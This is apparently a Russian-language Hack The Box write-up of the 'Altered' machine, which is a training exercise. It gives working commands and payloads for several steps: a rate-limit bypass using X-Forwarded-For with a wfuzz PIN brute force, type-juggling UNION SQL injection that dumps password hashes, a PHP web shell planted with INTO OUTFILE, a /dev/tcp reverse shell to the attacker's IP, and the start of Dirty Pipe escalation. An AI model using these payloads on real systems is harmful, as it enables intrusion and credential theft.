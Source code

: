 # 🔴 Altered (Linux, Hard)

![](<../.gitbook/assets/image (4).png>)

### Содержание:

После сканирования портов, мы обнаружим только два. На 80-ом порте будет форма авторизации и резета пароля с пинкодом. Просто перебирать четырехзначный пинкод не получится, так как после нескольких неправильных попыток, система блокирует запросы от пользователя. Laravel настроен так, что он использует Nginx, как прокси, следовательно, можно перезаписать HTTP-заголовки и брутить пинкод с нескольких айпи через X-Forwarded-For. После того, как мы получим доступ к учетке админа, можно будет проэксплуатировать SQLi, при этом тоже обойдя фильтры с помощью подмены типа переменной(Type Juggling). С помощью этой же SQLi получим непривилегированную оболочку и проэксплутируем вулну dirty pipe для уязвимого ядра линукса, чтобы рутироваться.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV 10.10.11.159 -oN nmap
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-title: UHC March Finals
|_Requested resource was http://10.10.11.159/login
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



![](<../.gitbook/assets/image (7).png>)

### Угадываем имя пользователя:

Через данную форму можно угадывать имена пользователей, например, я ввел - "**admin"**:

![](<../.gitbook/assets/image (9).png>)

Также можно восстановить пароль, но нужно знать пинкод, следовательно, можно его пробрутить:

![](<../.gitbook/assets/image (13).png>)

### Обходим Rate Limit и брутим пинкод:

Так как, если начать прямо брутить пинкод через **wfuzz**, то сервер начинает блокировать запросы (где-то после 60-ого запроса), т.е. тут стоит **Rate Limit**. На сайте используется **Laravel**, это можно определить по хранящимся кукам. А **Laravel** настроен так, что он использует **Nginx**, как прокси, следовательно, можно перезаписать **HTTP-заголовки** и брутить пинкод с нескольких айпи через **X-Forwarded-For**. Поэтому делаем два словаря, один для заголовка **X-Forwarded-For**:&#x20;

```
for i in {1..100}; do (for i in {1..254}; do echo $i; done); done >> wordlist1.txt
```

А другой для пинкода:

```
(for i in {0000..9999}; do echo $i; done) >> wordlist2.txt
```

Так как мы будем использовать цикл с этими двумя словарями, следовательно, нужно, чтобы в **wordlist1.txt** было больше слов, чем в **wordlist2.txt**:

```
wfuzz -H 'Cookie: XSRF-TOKEN=eyJpdiI6InlZZUE4bUkvODdaL2s5UHVHYVYzenc9PSIsInZhbHVlIjoiekdoaENqeUVrVVZwOTF3OVUwUURodTNTUUlPbVJzWkNIcFl5Q3QzSElGSnc5eE9IZzBaMno1OEd1eUFCdXE0QWg0RzV3ZFZQRi9QTVBkM0hNUGprdDBaREtOTUcyNS91bTlpQ1BZTTlLS05pMU15MU92aE93bGtua1c2SGwzV3oiLCJtYWMiOiI5ZGFjMmIyZTQ4OTc0ZTEzNzg2YzZjMWI5NmNmNGJjNGFiZDdhODg0ZWRiNjRjODllMGVhNTBjNGQxMGExMGRmIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkFsSDFSODIrQ3lZZzRQKzFHclI4eWc9PSIsInZhbHVlIjoiSkxPVDIrRUU4RmxxRXlaLzZ1alh5cC9oRnllTFpHOGpRYmQyMTUvWkVvYmJycEVSSWUwOFMxNmxINHlENU02Rk5GT2RPU0MvNmZBdGorSXJOUG1XSXlJNk4wd2dZVUpIN0lSd3JFRk1lSURpZElkdmE4VCtkcWkxVG1yT0s0SFIiLCJtYWMiOiJmZjY0MzZiY2I2NzcxM2NlYzExM2ZhNDY5OTg5MTY1YWQ5OWMxNzgxMjBjMzBmZDAwODE4ZjM1OWE1YzBmZTUyIiwidGFnIjoiIn0%3D' -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.11.159/api/resettoken -d 'name=admin&pin=FUZZ' -z range,1000-9999 -m zip -w wordlist1.txt  -H 'X-Forwarded-For: 127.0.0.FUZ2Z' --hh 5644
```

**Wfuzz** используем со специальным флагом **-m zip**, чтобы указать два словаря на два параметра фаззинга.

![](../.gitbook/assets/image.png)

Пинкод - 5118, введя его и изменив пароль админа, мы можем войти в панель:

![](<../.gitbook/assets/image (15).png>)

При клике на ссылку **view** у нас образуется **GET-запрос** с двумя параметрами **id** и **secret**:

![](<../.gitbook/assets/image (3).png>)

### Обходим фильтры и эксплуатируем SQLi:

При изменении параметра **id** вылетает ошибка, сообщающая о предотвращении пользовательского ввода. Так, как определенный параметр **id** должен соответствовать определенному параметру **secret**(который является **md5** хэшем, **32** символа), то мы не можем попытаться эксплуатировать **SQLi**, следовательно, можно попробовать преобразовать тело запроса в **json** и попробовать эксплуатировать вулну, которая заключается в преобразовании типов(**Type Juggling**). Я ее подробно разобрал в райтапе по [Ransom](https://tragernout.gitbook.io/hackandgtfo/hackthebox-writeups/ransom-linux-medium), а также нашел подробную статью по этому типу вулны [https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf):

```http
GET /api/getprofile HTTP/1.1
Host: 10.10.11.15
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/json
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Referer: http://10.10.11.159/
Cookie: XSRF-TOKEN=eyJpdiI6IlJsUnBqS0RrNG1xNWhxNFloWGpsZXc9PSIsInZhbHVlIjoiU01DY2YvOENtNHpHM1QzK2Z6c0l4OGpRSkNLeDQyVzk5emVHNU55TEIvSXRkZzRERXphNXBKSUxOaTFmSjNwNXNkaXJWMnhQMTVQclVLRVd0ckZDcFlTYXJ6OC9sdDNDZkxpSW91SEl6WlNnWnJGYTZVZXhkSlR4VjEzaGlUbnUiLCJtYWMiOiJlODZkYWFlMTYyNGFmMDRiYmUwZDgyNTM1YjZhZjc0ZWQyMTUyNzg1YmIwZGJmZGQ5MjgwMzhmNmE1NTAyNjQwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjdLWnAwUFZhb1RCRG90T1NZOGJocmc9PSIsInZhbHVlIjoiQjQ4R0Zkcm1BOHJ6ZlBnbFc5a1ptbVcrNXRPWUJ2MnlXbUE2ZzAwbDZKMDc2WDI1MlQwaldTVkdIYUNMZStLNFAxSGptOGhGNFhaM0piclFjTVB6WDgrYzErOEtyYlBTb0h0OUhsU2I2a1oycUhHWHd2bzA5OUpQQVBpZVR1ZXYiLCJtYWMiOiIwNDM0ZTM3YmYzODU3ZTVhODYzMWU1MmE0MmFmNzk3MDdlOWZiNWMyMzBmYTc3MTZlMDI3ZTRlNTAwMmQ5OWQwIiwidGFnIjoiIn0%3D
Content-Length: 60

{
"id":"2",
"secret":"c5169f4e0e83fd309f4d72a354021c60"
}
```

![](<../.gitbook/assets/image (11).png>)

![](<../.gitbook/assets/image (1).png>)

Далее я просто раскрутил **UNION SQLi**([о ней я тоже сделал статью](https://tragernout.gitbook.io/hackandgtfo/owasp-top-10/sql-union-injection)):

* Подбираем количество столбцов в **БД**, которая сейчас используется с помощью **null**:

![](<../.gitbook/assets/image (16).png>)

* Смотрим какие есть базы данных:

![](<../.gitbook/assets/image (2).png>)

```
{
"id":"1337 union select null,null,group_concat(schema_name) from information_schema.schemata -- -",
"secret": true
}
```

* Вытаскиваем таблицы из базы данных **uhc**:

```
1337 union select null,null,group_concat(table_name) from information_schema.tables where table_schema='uhc' -- -
```

```
failed_jobs,migrations,password_resets,personal_access_tokens,tasks,users
```

* Вытаскиваем столбцы из таблицы **users** базы данных **uhc**:

```
1337 union select null,null,group_concat(column_name) from information_schema.columns where table_schema='uhc' and table_name='users' -- -
```

```
bio,country,created_at,email,email_verified_at,id,name,password,remember_token,updated_at
```

* Достаем значения, которые нам ничего не дают :joy: :

```
1337 union select null,null,group_concat('\n', email, ':', name, ':', password) from uhc.users -- -
```

```
big0us@htb.local:big0us:$2y$10$L3X8m6P1w.F2aO011ffWr.587vGCYeFXuXwE2vr3DbrYkcuF741N2,
celesian@htb.local:celesian:$2y$10$8ewqN3lE9iazbo8sFiwUleeNIbOpAMRcaMzeiXJ50wlItN2Kd5pI6,
luska@htb.local:luska:$2y$10$KdZCbzxXRsBOBHI.91XIz.O.lQQ3TqeY8uonzAumoAv6v9JVQv3g.,
tinyb0y@htb.local:tinyb0y:$2y$10$X501zxcWLKXf.OteOaPILuhMBIalFjid5bBjBkrst/cynKL/DLfiS,
o-tafe@htb.local:o-tafe:$2y$10$XIrsc.ma/p0qhvWm9.sqyOnA5184ICWNverXQVLQJD30nCw7.PyxW,
watchdog@htb.local:watchdog:$2y$10$RTbD7i5I53rofpAfr83YcOK2XsTglO01jVHZajEOSH1tGXiU8nzEq,
mydonut@htb.local:mydonut:$2y$10$7DFlqs/eXGm0JPVebpPheuEx3gXPhTnRmN1Ia5wutECZg1El7cVJK,
bee@htb.local:bee:$2y$10$Furn1Q0Oy8IbeCslv7.Oy.psgPoCH2ds3FZfJeQlCdxJ0WVhLKmzm,
admin@htb.local:admin:$2y$10$uYmwbmWFdhy6mFXFPqgU3uDJDg1pJFJfWStkcaJY7LLJ69G17GdHC
```

### Создаем Reverse Shell через SQLi:

Мы можем читать файлы, следовательно, можем найти корневую папку сервера:

![](<../.gitbook/assets/image (12).png>)

Теперь попробуем создать свой файл **html**, записать в него что-то и проверить, имеем ли мы права создавать и редактировать файлы:

![](<../.gitbook/assets/image (6).png>)

![](<../.gitbook/assets/image (18).png>)

Все работает, переходим к созданию реверс шелла:

```
{
"id":"1337 union select null,null,'<?php system($_REQUEST[\"cmd\"]) ?>' into outfile '/srv/altered/public/tragernout.php' -- -",
"secret": true
}
```

![](<../.gitbook/assets/image (8).png>)

Но веб шелл нас не устраивает, поэтому перехватываем запрос и меняем его метод, а потом в параметр **cmd** вставляем наш пэйлоад в **URL-энкоде**:

![](<../.gitbook/assets/image (5).png>)

```
cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.44/9898+0>%261'
```

![](<../.gitbook/assets/image (10).png>)

### Рутируемся через Dirty Pipe(CVE-2022-0847):

```
$ uname -a
```

```
Linux altered 5.16.0-051600-generic #202201092355 SMP PREEMPT Mon Jan 10 00:21:11 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

Мы можем погуглить версию ядра линукс 5.16.0 и найти **CVE-2022-0847 (Dirty Pipe):**

{% embed url="https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits" %}

Если вкратце, то вулна **Dirty Pipe** позволяет перезаписывать любые файлы, но только после первого символа в них. Получается, нам нужно искать **SUID-файлы**, которые мы перезапишем и рутируемся:

Скачиваем второй эксплоит к себе на машину, компилируем и поднимаем пайтоновский веб-сервер:

```
$ gcc exploit-2.c -o exploit
$ python3 -m http.server
```

![](<../.gitbook/assets/image (19).png>)

